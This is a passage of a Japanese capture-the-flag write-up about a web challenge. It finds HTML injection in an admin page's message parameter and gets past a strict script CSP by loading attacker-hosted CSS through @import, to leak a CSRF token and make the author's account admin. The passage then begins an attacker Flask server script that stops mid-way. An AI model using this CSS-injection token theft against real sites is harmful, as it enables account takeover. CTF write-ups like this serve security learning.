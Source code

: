```html
            <input type="text" name="username" id="username" class="form-control" placeholder="Username" required="">
        </div>
        <div class="col-auto">
            <button type="submit" class="btn btn-primary">Make</button>
        </div>
    </form>
~~~
```
CSRFもトークンがあるため難しそうだ。  
弄っていると不正なユーザをadminにしようとした際にエラーメッセージが表示されることに気づく。  
![site3.png](site/site3.png)  
この際のURLは`http://localhost:5000/admin?message=Not+found+username`であり、`?message=<s>satoki`としてやるとタグが有効であった(文字数制限があるようだ)。  
XSSに持ち込めると考えるが、CSPが`script-src 'self'; style-src * 'unsafe-inline';`と強力であるため難しい。  
`style-src`が妙に緩いと考えていると、CSSiで属性値を盗み出すテクニックを思い出す。  
`<style>@import url(自身のサーバにあるCSSiペイロード)</style>`とすれば`message`文字数制限を無視してCSSiできる。  
`csrf_token`を盗み出し、自身のユーザ名`satoki00`をPOSTすることでadminになれそうだ。  
ただし、adminは毎回ログインし、`csrf_token`はセッション管理なのでワンショットで行う必要がある。  
幸運なことにボットはpuppeteerなので`window.open`しまくってやればよい。  
以下のserver.pyを自身のサーバへデプロイし、ボットに踏ませてやればよい(32文字だがキャッチミスを恐れて40程回している)。  
```py
from flask import Flask, Response, request

app = Flask(__name__)

TARGET_SERVER = "http://web:5000"
MY_SERVER = "http://localhost:31415"  # Your server's IP address

token_string = "0123456789abcdef"

csrf_token = ""


@app.route("/")
def index():
    return f"""
<!DOCTYPE html>
<html>
<head>
</head>
```